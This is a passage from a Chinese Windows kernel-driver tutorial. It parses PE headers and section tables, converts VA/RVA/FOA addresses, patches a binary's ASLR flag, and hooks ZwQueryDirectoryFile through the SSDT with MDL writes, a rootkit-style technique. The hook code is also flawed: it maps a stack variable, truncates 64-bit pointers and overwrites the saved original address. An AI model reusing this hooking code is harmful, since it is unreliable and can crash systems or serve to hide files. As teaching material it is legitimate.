    DWORD   SizeOfUninitializedData;      // 所有未初始化数据的节总大小
    DWORD   AddressOfEntryPoint;          // 程序执行入口RVA
    DWORD   BaseOfCode;                   // 代码节的起始RVA
    DWORD   BaseOfData;                   // 数据节的起始RVA
    DWORD   ImageBase;                    // 程序镜像基地址
    DWORD   SectionAlignment;             // 内存中节的对其粒度
    DWORD   FileAlignment;                // 文件中节的对其粒度
    WORD    MajorOperatingSystemVersion;  // 操作系统主版本号
    WORD    MinorOperatingSystemVersion;  // 操作系统副版本号
    WORD    MajorImageVersion;            // 可运行于操作系统的最小版本号
    WORD    MinorImageVersion;
    WORD    MajorSubsystemVersion;        // 可运行于操作系统的最小子版本号
    WORD    MinorSubsystemVersion;
    DWORD   Win32VersionValue;
    DWORD   SizeOfImage;                  // 内存中整个PE映像尺寸
    DWORD   SizeOfHeaders;                // 所有头加节表的大小
    DWORD   CheckSum;
    WORD    Subsystem;
    WORD    DllCharacteristics;
    DWORD   SizeOfStackReserve;           // 初始化时堆栈大小
    DWORD   SizeOfStackCommit;
    DWORD   SizeOfHeapReserve;
    DWORD   SizeOfHeapCommit;
    DWORD   LoaderFlags;
    DWORD   NumberOfRvaAndSizes;          // 数据目录的结构数量
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;
```
IMAGE_DATA_DIRECTORY数据目录列表，它由16个相同的IMAGE_DATA_DIRECTORY结构组成，这16个数据目录结构定义很简单仅仅指出了某种数据的位置和长度，定义如下：
```c
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD   VirtualAddress;      // 数据起始RVA
    DWORD   Size;                // 数据块的长度
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```
上方的结构就是PE文件的重要结构，接下来将通过编程读取出PE文件的开头相关数据，读取这些结构也非常简单代码如下所示。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntdll.dll");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取PE头数据集
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeaders->FileHeader;

    DbgPrint("运行平台:     %x\n", pFileHeader->Machine);
    DbgPrint("节区数目:     %x\n", pFileHeader->NumberOfSections);
    DbgPrint("时间标记:     %x\n", pFileHeader->TimeDateStamp);
    DbgPrint("可选头大小    %x\n", pFileHeader->SizeOfOptionalHeader);
    DbgPrint("文件特性:     %x\n", pFileHeader->Characteristics);
    DbgPrint("入口点：        %p\n", pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    DbgPrint("镜像基址：      %p\n", pNtHeaders->OptionalHeader.ImageBase);
    DbgPrint("镜像大小：      %p\n", pNtHeaders->OptionalHeader.SizeOfImage);
    DbgPrint("代码基址：      %p\n", pNtHeaders->OptionalHeader.BaseOfCode);
    DbgPrint("区块对齐：      %p\n", pNtHeaders->OptionalHeader.SectionAlignment);
    DbgPrint("文件块对齐：    %p\n", pNtHeaders->OptionalHeader.FileAlignment);
    DbgPrint("子系统：        %x\n", pNtHeaders->OptionalHeader.Subsystem);
    DbgPrint("区段数目：      %d\n", pNtHeaders->FileHeader.NumberOfSections);
    DbgPrint("时间日期标志：  %x\n", pNtHeaders->FileHeader.TimeDateStamp);
    DbgPrint("首部大小：      %x\n", pNtHeaders->OptionalHeader.SizeOfHeaders);
    DbgPrint("特征值：        %x\n", pNtHeaders->FileHeader.Characteristics);
    DbgPrint("校验和：        %x\n", pNtHeaders->OptionalHeader.CheckSum);
    DbgPrint("可选头部大小：  %x\n", pNtHeaders->FileHeader.SizeOfOptionalHeader);
    DbgPrint("RVA 数及大小：  %x\n", pNtHeaders->OptionalHeader.NumberOfRvaAndSizes);

    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上这段代码，即可解析出`ntdll.dll`模块的核心内容，如下图所示；



接着来实现解析节表，PE文件中的所有节的属性定义都被定义在节表中，节表由一系列的`IMAGE_SECTION_HEADER`结构排列而成，每个结构邮过来描述一个节，节表总被存放在紧接在PE文件头的地方，也即是从PE文件头开始偏移为`00f8h`的位置处，如下是节表头部的定义。
```c
typedef struct _IMAGE_SECTION_HEADER {
    BYTE    Name[IMAGE_SIZEOF_SHORT_NAME];
    union {
            DWORD   PhysicalAddress;
            DWORD   VirtualSize;           // 节区尺寸
    } Misc;
    DWORD   VirtualAddress;                // 节区RVA
    DWORD   SizeOfRawData;                 // 在文件中对齐后的尺寸
    DWORD   PointerToRawData;              // 在文件中的偏移
    DWORD   PointerToRelocations;          // 在OBJ文件中使用
    DWORD   PointerToLinenumbers;
    WORD    NumberOfRelocations;
    WORD    NumberOfLinenumbers;
    DWORD   Characteristics;               // 节区属性字段
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
```

其中，Name是该节的名称，`VirtualAddress`是该节在内存中的虚拟地址，`SizeOfRawData`是该节在文件中的大小，`PointerToRawData`是该节在文件中的偏移地址，`Characteristics`描述了该节的属性，例如是否可读、可写、可执行等。

节表通常位于PE结构的文件头后面，它包含了多个节表项，每个节表项描述了一个节的信息，包括：

 - 节名称：每个节都有一个名称，例如代码节的名称为`.text`，数据节的名称为`.data`等；
 - 节大小：该节的大小，以字节为单位；
 - 节的虚拟地址：该节在内存中的虚拟地址；
 - 节的物理地址：该节在文件中的偏移地址；
 - 节的属性：例如该节是否可读、可写、可执行等。

总的来说，节表记录了PE文件中每个区域的详细信息，这些信息对于可执行文件或DLL的加载和运行都非常重要。

解析节表也很容易实现，首先通过`pFileHeader->NumberOfSections`获取到节数量，然后循环解析直到所有节输出完成，这段代码实现如下所示。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntdll.dll");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取PE头数据集
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNtHeaders);
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeaders->FileHeader;

    DWORD NumberOfSectinsCount = 0;

    // 获取区块数量
    NumberOfSectinsCount = pFileHeader->NumberOfSections;

    DWORD64 *difA = NULL;   // 虚拟地址开头
    DWORD64 *difS = NULL;   // 相对偏移(用于遍历)

    difA = ExAllocatePool(NonPagedPool, NumberOfSectinsCount*sizeof(DWORD64));
    difS = ExAllocatePool(NonPagedPool, NumberOfSectinsCount*sizeof(DWORD64));

    DbgPrint("节区名称 相对偏移\t虚拟大小\tRaw数据指针\tRaw数据大小\t节区属性\n");

    for (DWORD temp = 0; temp<NumberOfSectinsCount; temp++, pSection++)
    {
        DbgPrint("%10s\t 0x%x \t 0x%x \t 0x%x \t 0x%x \t 0x%x \n",
            pSection->Name, pSection->VirtualAddress, pSection->Misc.VirtualSize,
            pSection->PointerToRawData, pSection->SizeOfRawData, pSection->Characteristics);

        difA[temp] = pSection->VirtualAddress;
        difS[temp] = pSection->VirtualAddress - pSection->PointerToRawData;
    }

    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序，即可输出`ntdll.dll`模块的节表信息，如下图；



### 9.4 内核PE结构VA与FOA转换

本章将继续探索内核中解析PE文件的相关内容，PE文件中FOA与VA,RVA之间的转换也是很重要的，所谓的FOA是文件中的地址，VA则是内存装入后的虚拟地址，RVA是内存基址与当前地址的相对偏移，本章还是需要用到`《内核解析PE结构导出表》`中所封装的`KernelMapFile()`映射函数，在映射后对其PE格式进行相应的解析，并实现转换函数。

首先先来演示一下内存VA地址与FOA地址互相转换的方式，通过使用WinHEX打开一个二进制文件，打开后我们只需要关注如下蓝色注释为映像建议装入基址，黄色注释为映像装入后的RVA偏移。



通过上方的截图结合PE文件结构图我们可得知`0000158B`为映像装入内存后的RVA偏移，紧随其后的`00400000`则是映像的建议装入基址，为什么是建议而不是绝对？别急后面慢来来解释。

> 通过上方的已知条件我们就可以计算出程序实际装入内存后的入口地址了，公式如下：
> VA(实际装入地址) = ImageBase(基址) + RVA(偏移) => 00400000 + 0000158B = 0040158B

找到了程序的OEP以后，接着我们来判断一下这个`0040158B`属于那个节区，以.text节区为例，下图我们通过观察区段可知，第一处橙色位置`00000B44 (节区尺寸)`，第二处紫色位置`00001000 (节区RVA)`，第三处`00000C00 (文件对齐尺寸)`，第四处`00000400 (文件中的偏移)`，第五处`60000020 (节区属性)`。



得到了上方text节的相关数据，我们就可以判断程序的OEP到底落在了那个节区中，这里以.text节为例子，计算公式如下：
> 虚拟地址开始位置：节区基地址 + 节区RVA => 00400000 + 00001000 = 00401000
> 虚拟地址结束位置：text节地址 + 节区尺寸 => 00401000 + 00000B44 = 00401B44

经过计算得知 .text 节所在区间（401000 - 401B44） 你的装入VA地址`0040158B`只要在区间里面就证明在本节区中，此处的VA地址是在`401000 - 401B44`区间内的，则说明它属于.text节。

经过上面的公式计算我们知道了程序的OEP位置是落在了.text节，此时你兴致勃勃的打开x64DBG想去验证一下公式是否计算正确不料，这地址根本不是400000开头啊，这是什么鬼？



上图中出现的这种情况就是关于随机基址的问题，在新版的VS编译器上存在一个选项是否要启用随机基址(默认启用)，至于这个随机基址的作用，猜测可能是为了防止缓冲区溢出之类的烂七八糟的东西。

为了方便我们调试，我们需要手动干掉它，其对应到PE文件中的结构为 IMAGE_NT_HEADERS -> IMAGE_OPTIONAL_HEADER -> DllCharacteristics 相对于PE头的偏移为90字节，只需要修改这个标志即可，修改方式 `x64：6081 改 2081` 相对于 `x86：4081 改 0081` 以X86程序为例，修改后如下图所示。



经过上面对标志位的修改，程序再次载入就能够停在`0040158B`的位置，也就是程序的OEP，接下来我们将通过公式计算出该OEP对应到文件中的位置。
> .text(节首地址) = ImageBase + 节区RVA => 00400000 + 00001000 = 00401000
> VA(虚拟地址) = ImageBase + RVA(偏移) => 00400000 + 0000158B = 0040158B
> RVA(相对偏移) = VA - (.text节首地址) => 0040158B - 00401000 = 58B
> FOA(文件偏移) = RVA + .text节对应到文件中的偏移 => 58B + 400 = 98B

经过公式的计算，我们找到了虚拟地址`0040158B`对应到文件中的位置是`98B`，通过WinHEX定位过去，即可看到OEP处的机器码指令了。



接着我们来计算一下.text节区的结束地址，通过文件的偏移加上文件对齐尺寸即可得到.text节的结束地址`400+C00= 1000`，那么我们主要就在文件偏移为(98B - 1000)在该区间中找空白的地方，此处我找到了在文件偏移为1000之前的位置有一段空白区域，如下图：



接着我么通过公式计算一下文件偏移为`0xF43`的位置，其对应到VA虚拟地址是多少，公式如下：

> .text(节首地址) = ImageBase + 节区RVA => 00400000 + 00001000 = 00401000
> VPK(实际大小) = (text节首地址 - ImageBase) - 实际偏移 => 401000-400000-400 = C00
> VA(虚拟地址) = FOA(.text节) + ImageBase + VPK => F43+400000+C00 = 401B43

计算后直接X64DBG跳转过去，我们从`00401B44`的位置向下全部填充为90(nop)，然后直接保存文件。



再次使用WinHEX查看文件偏移为`0xF43`的位置，会发现已经全部替换成了90指令，说明计算正确。



到此文件偏移与虚拟偏移的转换就结束了，那么这些功能该如何实现呢，接下来将以此实现这些转换细节。

#### 9.4.1 FOA偏移转换为VA偏移

首先来实现将`FOA`地址转换为`VA`地址，这段代码实现起来很简单，如下所示，此处将`dwFOA`地址`0x84EC00`转换为对应内存的虚拟地址。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntoskrnl.exe");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取PE头数据集
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNtHeaders);
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeaders->FileHeader;

    DWORD64 dwFOA = 0x84EC00;

    DWORD64 ImageBase = pNtHeaders->OptionalHeader.ImageBase;
    DWORD NumberOfSectinsCount = pNtHeaders->FileHeader.NumberOfSections;
    DbgPrint("镜像基址 = %p | 节表数量 = %d \n", ImageBase, NumberOfSectinsCount);

    for (int each = 0; each < NumberOfSectinsCount; each++)
    {
        DWORD64 PointerRawStart = pSection[each].PointerToRawData;                                // 文件偏移开始位置
        DWORD64 PointerRawEnds = pSection[each].PointerToRawData + pSection[each].SizeOfRawData;  // 文件偏移结束位置
        // DbgPrint("文件开始偏移 = %p | 文件结束偏移 = %p \n", PointerRawStart, PointerRawEnds);

        if (dwFOA >= PointerRawStart && dwFOA <= PointerRawEnds)
        {
            DWORD64 RVA = pSection[each].VirtualAddress + (dwFOA - pSection[each].PointerToRawData);     // 计算出RVA
            DWORD64 VA = RVA + pNtHeaders->OptionalHeader.ImageBase;                                     // 计算出VA
            DbgPrint("FOA偏移 [ %p ] --> 对应VA地址 [ %p ] \n", dwFOA, VA);
        }
    }

    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行效果如下所示，此处之所以出现两个结果是因为没有及时返回，一般我们取第一个结果就是最准确的；



#### 9.4.2 VA偏移转换为FOA偏移

将VA内存地址转换为FOA文件偏移，代码与如上基本保持一致。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntoskrnl.exe");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取PE头数据集
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNtHeaders);
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeaders->FileHeader;

    DWORD64 dwVA = 0x00007FF6D3389200;
    DWORD64 ImageBase = pNtHeaders->OptionalHeader.ImageBase;
    DWORD NumberOfSectinsCount = pNtHeaders->FileHeader.NumberOfSections;
    DbgPrint("镜像基址 = %p | 节表数量 = %d \n", ImageBase, NumberOfSectinsCount);

    for (DWORD each = 0; each < NumberOfSectinsCount; each++)
    {
        DWORD Section_Start = ImageBase + pSection[each].VirtualAddress;                                  // 获取节的开始地址
        DWORD Section_Ends = ImageBase + pSection[each].VirtualAddress + pSection[each].Misc.VirtualSize; // 获取节的结束地址

        DbgPrint("Section开始地址 = %p | Section结束地址 = %p \n", Section_Start, Section_Ends);

        if (dwVA >= Section_Start && dwVA <= Section_Ends)
        {
            DWORD RVA = dwVA - pNtHeaders->OptionalHeader.ImageBase;                                    // 计算RVA
            DWORD FOA = pSection[each].PointerToRawData + (RVA - pSection[each].VirtualAddress);       // 计算FOA
            
            DbgPrint("VA偏移 [ %p ] --> 对应FOA地址 [ %p ] \n", dwVA, FOA);
        }
    }

    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行效果如下所示，此处没有出现想要的结果是因为我们当前的VA内存地址并非实际装载地址，仅仅是PE磁盘中的地址，此处如果换成内存中的PE则可以提取出正确的结果；



#### 9.4.3 RVA偏移转换为FOA偏移

将相对偏移地址转换为FOA文件偏移地址，此处仅仅只是多了一步`pNtHeaders->OptionalHeader.ImageBase + dwRVA`RVA转换为VA的过程其转换结果与VA转FOA一致。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntoskrnl.exe");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (!NT_SUCCESS(status))
    {
        return 0;
    }

    // 获取PE头数据集
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PIMAGE_SECTION_HEADER pSection = IMAGE_FIRST_SECTION(pNtHeaders);
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeaders->FileHeader;

    DWORD64 dwRVA = 0x89200;
    DWORD64 ImageBase = pNtHeaders->OptionalHeader.ImageBase;
    DWORD NumberOfSectinsCount = pNtHeaders->FileHeader.NumberOfSections;
    DbgPrint("镜像基址 = %p | 节表数量 = %d \n", ImageBase, NumberOfSectinsCount);

    for (DWORD each = 0; each < NumberOfSectinsCount; each++)
    {
        DWORD Section_Start = pSection[each].VirtualAddress;                                  // 计算RVA开始位置
        DWORD Section_Ends = pSection[each].VirtualAddress + pSection[each].Misc.VirtualSize; // 计算RVA结束位置

        if (dwRVA >= Section_Start && dwRVA <= Section_Ends)
        {
            DWORD VA = pNtHeaders->OptionalHeader.ImageBase + dwRVA;                                  // 得到VA地址
            DWORD FOA = pSection[each].PointerToRawData + (dwRVA - pSection[each].VirtualAddress);    // 得到FOA
            DbgPrint("RVA偏移 [ %p ] --> 对应FOA地址 [ %p ] \n", dwRVA, FOA);
        }
    }

    ZwUnmapViewOfSection(NtCurrentProcess(), pBaseAddress);
    ZwClose(hSection);
    ZwClose(hFile);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行效果如下所示；



### 9.5 内核实现SSDT挂钩与摘钩

在前面的文章`《内核解析PE结构导出表》`中我们封装了两个函数`KernelMapFile()`函数可用来读取内核文件，`GetAddressFromFunction()`函数可用来在导出表中寻找指定函数的导出地址，本章将以此为基础实现对特定`SSDT`函数的`Hook`挂钩操作，与`《内核层InlineHook挂钩函数》`所使用的挂钩技术基本一致，不同点是前者使用了`CR3`的方式改写内存，而今天所讲的是通过`MDL映射`实现，此外前者挂钩中所取到的地址是通过`GetProcessAddress()`取到的动态地址，而今天所使用的方式是通过读取导出表寻找。

挂钩的目的就是要为特定函数增加功能，挂钩的实现方式无非就是替换原函数地址，我们以内核函数`ZwQueryDirectoryFile()`为例，`ZwQueryDirectoryFile`例程返回给定文件句柄指定的目录中文件的各种信息，其微软定义如下；
```c
NTSYSAPI NTSTATUS ZwQueryDirectoryFile(
  [in]           HANDLE                 FileHandle,
  [in, optional] HANDLE                 Event,
  [in, optional] PIO_APC_ROUTINE        ApcRoutine,
  [in, optional] PVOID                  ApcContext,
  [out]          PIO_STATUS_BLOCK       IoStatusBlock,
  [out]          PVOID                  FileInformation,
  [in]           ULONG                  Length,
  [in]           FILE_INFORMATION_CLASS FileInformationClass,
  [in]           BOOLEAN                ReturnSingleEntry,
  [in, optional] PUNICODE_STRING        FileName,
  [in]           BOOLEAN                RestartScan
);
```
如果需要`Hook`一个函数则你需要去微软官方得到该函数的具体声明部分包括其返回值，而`Hook`的目的只是为函数增加或处理新功能，则在执行完自定义函数后一定要跳回到原始函数上，此时定义一个`typedef_ZwQueryDirectoryFile`函数指针在调用结束后即可很容易的跳转回原函数上，保证流程被正确执行，如果需要Hook其他函数其编写模板也是如下所示；
```c
// 保存原函数地址
PVOID gOldFunctionAddress = NULL;

// Hook后被替换的新函数
NTSTATUS MyZwQueryDirectoryFile(
    IN HANDLE               FileHandle,
    IN HANDLE               Event OPTIONAL,
    IN PIO_APC_ROUTINE      ApcRoutine OPTIONAL,
    IN PVOID                ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK    IoStatusBlock,
    OUT PVOID               FileInformation,
    IN ULONG                Length,
    IN FILE_INFORMATION_CLASS FileInformationClass,
    IN BOOLEAN              ReturnSingleEntry,
    IN PUNICODE_STRING      FileMask OPTIONAL,
    IN BOOLEAN              RestartScan
    )
{
    NTSTATUS status = STATUS_SUCCESS;

    // 定义函数指针
    typedef NTSTATUS(*typedef_ZwQueryDirectoryFile)(
        IN HANDLE               FileHandle,
        IN HANDLE               Event OPTIONAL,
        IN PIO_APC_ROUTINE      ApcRoutine OPTIONAL,
        IN PVOID                ApcContext OPTIONAL,
        OUT PIO_STATUS_BLOCK    IoStatusBlock,
        OUT PVOID               FileInformation,
        IN ULONG                Length,
        IN FILE_INFORMATION_CLASS FileInformationClass,
        IN BOOLEAN              ReturnSingleEntry,
        IN PUNICODE_STRING      FileMask OPTIONAL,
        IN BOOLEAN              RestartScan
        );

    DbgPrint("MyZwQueryDirectoryFile 自定义功能 \n");

    // 执行原函数
    status = ((typedef_ZwQueryDirectoryFile)gOldFunctionAddress)(FileHandle,
        Event,
        ApcRoutine,
        ApcContext,
        IoStatusBlock,
        FileInformation,
        Length,
        FileInformationClass,
        ReturnSingleEntry,
        FileMask,
        RestartScan);

    return status;
}
```
接着就是如何挂钩并让其中转到我们自己的代码流程中的问题，由于挂钩与恢复代码是一样的此处就以挂钩为例，首先调用`MmCreateMdl()`创建MDL，接着调用`MmBuildMdlForNonPagedPool()`接收一个 MDL，该MDL指定非分页虚拟内存缓冲区，并对其进行更新以描述基础物理页。调用`MmMapLockedPages()`将此段内存提交为锁定状态，最后就是调用`RtlCopyMemory()`将新函数地址写出到内存中实现替换，最后释放MDL句柄即可，这段代码如下所示，看过`驱动读写篇`的你一定很容易就能理解。
```c
// 挂钩SSDT函数
BOOLEAN SSDTFunctionHook(ULONG64 FunctionAddress)
{
    PMDL pMdl = NULL;
    PVOID pNewAddress = NULL;
    ULONG ulNewFuncAddr = 0;

    gOldFunctionAddress = FunctionAddress;

    // 使用MDL修改SSDT
    pMdl = MmCreateMdl(NULL, &FunctionAddress, sizeof(ULONG));
    if (NULL == pMdl)
    {
        return FALSE;
    }

    MmBuildMdlForNonPagedPool(pMdl);

    // 锁定内存
    pNewAddress = MmMapLockedPages(pMdl, KernelMode);
    if (NULL == pNewAddress)
    {
        IoFreeMdl(pMdl);
        return FALSE;
    }

    // 写入新函数地址
    ulNewFuncAddr = (ULONG)MyZwQueryDirectoryFile;
    RtlCopyMemory(pNewAddress, &ulNewFuncAddr, sizeof(ULONG));

    // 释放
    MmUnmapLockedPages(pNewAddress, pMdl);
    IoFreeMdl(pMdl);

    return TRUE;
}
```
Hook核心代码如下所示，为了节约篇幅，如果您找不到程序中的核心功能，请看前面的几篇文章，这里就不在赘述了。
```c
// 保存原函数地址
PVOID gOldFunctionAddress = NULL;

// Hook后被替换的新函数
NTSTATUS MyZwQueryDirectoryFile(
    IN HANDLE               FileHandle,
    IN HANDLE               Event OPTIONAL,
    IN PIO_APC_ROUTINE      ApcRoutine OPTIONAL,
    IN PVOID                ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK    IoStatusBlock,
    OUT PVOID               FileInformation,
    IN ULONG                Length,
    IN FILE_INFORMATION_CLASS FileInformationClass,
    IN BOOLEAN              ReturnSingleEntry,
    IN PUNICODE_STRING      FileMask OPTIONAL,
    IN BOOLEAN              RestartScan
    )
{
    NTSTATUS status = STATUS_SUCCESS;

    // 定义函数指针
    typedef NTSTATUS(*typedef_ZwQueryDirectoryFile)(
        IN HANDLE               FileHandle,
        IN HANDLE               Event OPTIONAL,
        IN PIO_APC_ROUTINE      ApcRoutine OPTIONAL,
        IN PVOID                ApcContext OPTIONAL,
        OUT PIO_STATUS_BLOCK    IoStatusBlock,
        OUT PVOID               FileInformation,
        IN ULONG                Length,
        IN FILE_INFORMATION_CLASS FileInformationClass,
        IN BOOLEAN              ReturnSingleEntry,
        IN PUNICODE_STRING      FileMask OPTIONAL,
        IN BOOLEAN              RestartScan
        );

    DbgPrint("MyZwQueryDirectoryFile 自定义功能 \n");

    // 执行原函数
    status = ((typedef_ZwQueryDirectoryFile)gOldFunctionAddress)(FileHandle,
        Event,
        ApcRoutine,
        ApcContext,
        IoStatusBlock,
        FileInformation,
        Length,
        FileInformationClass,
        ReturnSingleEntry,
        FileMask,
        RestartScan);

    return status;
}

// 挂钩SSDT函数
BOOLEAN SSDTFunctionHook(ULONG64 FunctionAddress)
{
    PMDL pMdl = NULL;
    PVOID pNewAddress = NULL;
    ULONG ulNewFuncAddr = 0;

    gOldFunctionAddress = FunctionAddress;

    // 使用MDL修改SSDT
    pMdl = MmCreateMdl(NULL, &FunctionAddress, sizeof(ULONG));
    if (NULL == pMdl)
    {
        return FALSE;
    }

    MmBuildMdlForNonPagedPool(pMdl);

    // 锁定内存
    pNewAddress = MmMapLockedPages(pMdl, KernelMode);
    if (NULL == pNewAddress)
    {
        IoFreeMdl(pMdl);
        return FALSE;
    }

    // 写入新函数地址
    ulNewFuncAddr = (ULONG)MyZwQueryDirectoryFile;
    RtlCopyMemory(pNewAddress, &ulNewFuncAddr, sizeof(ULONG));

    // 释放
    MmUnmapLockedPages(pNewAddress, pMdl);
    IoFreeMdl(pMdl);

    return TRUE;
}

// 恢复SSDT函数
BOOLEAN SSDTFunctionUnHook(ULONG64 FunctionAddress)
{
    PMDL pMdl = NULL;
    PVOID pNewAddress = NULL;
    ULONG ulOldFuncAddr = 0;

    gOldFunctionAddress = FunctionAddress;

    // 使用MDL修改SSDT
    pMdl = MmCreateMdl(NULL, &FunctionAddress, sizeof(ULONG));
    if (NULL == pMdl)
    {
        return FALSE;
    }

    MmBuildMdlForNonPagedPool(pMdl);

    // 锁定内存
    pNewAddress = MmMapLockedPages(pMdl, KernelMode);
    if (NULL == pNewAddress)
    {
        IoFreeMdl(pMdl);
        return FALSE;
    }

    // 写入新函数地址
    ulOldFuncAddr = (ULONG)gOldFunctionAddress;
    RtlCopyMemory(pNewAddress, &ulOldFuncAddr, sizeof(ULONG));

    // 释放
    MmUnmapLockedPages(pNewAddress, pMdl);
    IoFreeMdl(pMdl);

    return TRUE;
}

// 关闭驱动
VOID UnDriver(PDRIVER_OBJECT driver)
{
    SSDTFunctionUnHook(gOldFunctionAddress);
    DbgPrint("驱动卸载 \n");
}

// 驱动入口
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    NTSTATUS status = STATUS_SUCCESS;

    HANDLE hFile = NULL;
    HANDLE hSection = NULL;
    PVOID pBaseAddress = NULL;
    UNICODE_STRING FileName = { 0 };
    ULONG64 FunctionAddress = 0;

    // 初始化字符串
    RtlInitUnicodeString(&FileName, L"\\??\\C:\\Windows\\System32\\ntdll.dll");

    // 内存映射文件
    status = KernelMapFile(FileName, &hFile, &hSection, &pBaseAddress);
    if (NT_SUCCESS(status))
    {
        DbgPrint("读取内存地址 = %p \n", pBaseAddress);
    }

    // 获取指定模块导出函数地址
    FunctionAddress = GetAddressFromFunction(FileName, "ZwQueryDirectoryFile");
    DbgPrint("ZwQueryVirtualMemory内存地址 = %p \n", FunctionAddress);

    // 开始Hook挂钩
    if (FunctionAddress != 0)
    {
        BOOLEAN ref = SSDTFunctionHook(FunctionAddress);
        if (ref == TRUE)
        {
            DbgPrint("[+] Hook已挂钩 \n");
        }
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这段驱动程序，则你会看到挂钩成功的提示信息；



